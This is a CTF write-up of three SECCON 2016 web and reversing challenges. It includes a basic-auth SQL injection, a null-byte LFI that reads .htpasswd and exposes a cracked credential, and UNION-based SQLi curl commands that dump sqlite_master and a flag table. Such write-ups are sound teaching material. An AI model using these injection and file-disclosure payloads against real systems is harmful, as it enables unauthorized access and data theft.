




# SECCON 2016

Yesterday (actually it has just finished today at 7 AM CET) there was a 24h SECCON CTF. We did took part in it, collected 5100 pts and came 6th.

Here are the tasks I've solved.

## basiq - Web 100

> basiq
>  What is admin's password?☺
>  <http://basiq.pwn.seccon.jp>

When we enter the given site we can see that it's some kind of core racing site.

We can see a login panel and signup button. We can even create an account and log-in. Ok, but we should try to get admin's password.

If we check [client.js](http://basiq.pwn.seccon.jp/javascripts/client.js) we can see line like this
[code]
    if(loginuser == 'admin'){
    	links.push({label:'Admin', href:'/admin/'});
    }

[/code]

let's try to access it then. In the browser we are asked for the basic authentication. Let's switch to the console

`curl -u "admin:' or 1=1#" -v http://basiq.pwn.seccon.jp/admin`

and we are in. Ok, but we need to extract user password as the description says. To do that I've took a similar approach as in [ECMS 2016 CTF](https://ctfs.ghost.io/ecms-2016-ctf/) (Password extraction) and create a little script. The difficult part was to find out the column names but the error messaged gave them away.

[View Gist](https://gist.github.com/pawlos/6536bc23890e17dd982df0908fe29784)

I first time I run it it reported that the admin's password is 5 chars long and it's 12345! I was a little shocked but anyway tried those on the webpage I got this.

So a little bit more encouraged I've tried this as a flag. Wrong! Also tried with `SECCON{}` around but also no luck.

I've contacted the orgs an informed about it. They informed that the flag should already by in the form of SECCON{} but they agree that the page is behaving strange. They needed to fix it.

After few minutes it was working again according to the orgs. I've run my script again and this time it reported something more meaningful. A password of 16 chars and the first char extracted was S so it might be the correct one. After few more iteration I go the whole password - `SECCON{CARNIVAL}` but again the system reported incorrect flag. WTF!

I've contacted the orgs again and was informed that the password is case-sensitive but I was a bit annoying that it's the second time I got info that I should pass it as a flag and the system rejected it. After some discussion I got a confirmation that the flag for this should be case-insensitive so orgs changed it and then it was accepted.

flag: `SECCON{CARNIVAL}`

Later in the competition it was announced that someone has registered a fake `admin` account. Maybe that was the `12345` password I was getting in the first try.

One observation - it was painfully slow to work with this challenge. I don't know whether it was all the CGIs that were used or I should get some VM in Japan and try to attack from there. Anyway the flag was obtained.

## pppppoxy - Web 200

> pppppoxy

> Log in as admin and get the flag
>  [pppppoxy.zip]().

It's a bit strange web task as we were given an .NET assembly. When I run it a web page was opened

since it's .NET let's open it in the best .NET disassembler - [dnSpy](https://github.com/0xd4d/dnSpy).

Unfortunately the exe is obfuscated.

That should not stop us though. dnSpy allows debugging so let's put a breakpoint in the Main method (strange that name was not obfuscated - it could be) and let's step through. It does a bit of loading but eventually we end up in:

And after few steps further we clearly see that MD5 is calculated from our entry and compared with MD5 calculated from string: `-40.01.6102 ,ikazamaY ogieK© thgirypoC`

if we pass the above string as a password we get the flag.

flag: `SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}`

## uncomfortable web - Web 300

> uncomfortable web
>  Attack to <http://127.0.0.1:81/authed/> through the uploaded script at <http://uncomfortableweb.pwn.seccon.jp/>.
>  Get the flag in the database!

When we go to <http://uncomfortableweb.pwn.seccon.jp/> we get this form:

when we investigate the examples it looks like we can write them as a shell script, perl or python.

We try a basic one:

`curl http://127.0.0.1:81`

and get in response

let's display `select.cgi`

`curl http://127.0.0.1:81/select.cgi`

with this form we can display files `a` and `b` but they do not help much. Lets see if the form is vulnerable to LFI.

Let's execute this

`curl http://127.0.0.1:81/select.cgi?txt=.htaccess%00`

it did work and we gain additional info

additionally from `.htpasswd`

`keigo:LdnoMJCeVy.SE`

that corresponds to password `test`.

Lets access the main area of our interest.

`curl -u keigo:test http://127.0.0.1:81/authed/`

and further into `sqlinj`

we see there 100 cgi files that on first look they all behave the same. Let's see if that's truly the case

`curl curl -u keigo:test http://127.0.0.1:81/authed/sqlinj/[1-100].cgi?no=%27`

for the `72.cgi` we do not get the same output - </body></html> is missing from the output. From that we test it and verify that `72.cgi` is vulnerable to sqli. Let's try to obtain some more info

`curl -v -s -u keigo:test "http://127.0.0.1:81/authed/sqlinj/72.cgi?no=%27%20union%20SELECT%20name,sql,1%20FROM%20sqlite_master--"`

and from that we get the flag!

`curl -v -s -u keigo:test "http://127.0.0.1:81/authed/sqlinj/72.cgi?no=%27%20union%20SELECT%20f1ag,1,1%20FROM%20f1ags--"`

flag: `SECCON{I want to eventually make a CGC web edition... someday...}`

## Scoreboard

The final Top 10 scoreboard

Congrats to all!
